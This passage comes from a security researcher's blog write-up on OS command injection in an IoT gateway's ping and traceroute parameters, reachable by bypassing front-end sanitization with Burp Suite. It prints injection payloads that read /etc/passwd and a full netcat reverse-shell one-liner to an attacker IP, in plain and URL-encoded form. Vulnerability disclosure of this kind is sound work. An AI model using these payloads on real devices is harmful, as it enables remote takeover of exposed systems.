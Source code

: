 ![](https://boschko.ca/content/images/2022/08/image-141.png)

And we're presented with the following error message.

![](https://boschko.ca/content/images/2022/05/image-9.png)

We need to feed malicious content into the parameter `pingValue`. If we do this successfully and don't fail the check, our request will be sent to the web server where the server application act upon the input.

![](https://boschko.ca/content/images/2022/08/image-142.png)

To circumvent the input sanitization on the front-end we will send our post request to the webserver directly using Burp Suite. This way we can simply modify the POST request without the front-end sanitization being forced. As mentioned above, using the `;` command separator we should be able to achieve command injection through the `ping_addr` or `trace_addr` parameters. If I've explained this poorly, perhaps the following visual can help.

![](https://boschko.ca/content/images/2022/08/image-137.png)

Image Credit: [I‘m on Your Phone, Listening – Attacking VoIP Configuration Interfaces](https://www.youtube.com/watch?v=sXiGknzD02c&ref=boschko.ca)

Let's give it a try. If you look closely at the POST request below the `ping_addr` value is `;/bin/pwd%20` which returned the present working directory of the application user. Confirming that OS Command Injection had been successfully performed.

![](https://boschko.ca/content/images/2022/05/image-7.png)

Now let's do an obligatory cat of `/etc/passwd` by feeding the following input `;/bin/cat /etc/passwd 2>&1`

![](https://boschko.ca/content/images/2022/05/image-10.png)

Okay, let's go ahead and get a reverse shell.

```
Payload:
;rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|/usr/bin/nc 192.168.8.193 4000 >/tmp/f

URL encoded:
;rm%20/tmp/f;mknod%20/tmp/f%20p;cat%20/tmp/f|/bin/sh%20-i%202%3E%261|/usr/bin/nc%20192.168.8.193%204000%20>%20tmp%20f
```
![](https://boschko.ca/content/images/2022/05/image-12.png)

Cool, but this attack scenario kinda sucks... we need to be authenticated, on the same network, etc, etc. One of the main reasons I think this is a cool find, and why it's not simply a local attack vector is that we can configure our device with the vendor's IoT cloud gateway! This cloud gateway allows us to deploy and manage our connected IoT gateways remotely.

![](https://boschko.ca/content/images/2022/05/image-71.png)

I've discovered that there are roughly `~30000` devices configured this way. One of the features of this cloud management portal is the ability to access your device's admin panel remotely through a public-facing endpoint. Such can be seen below.

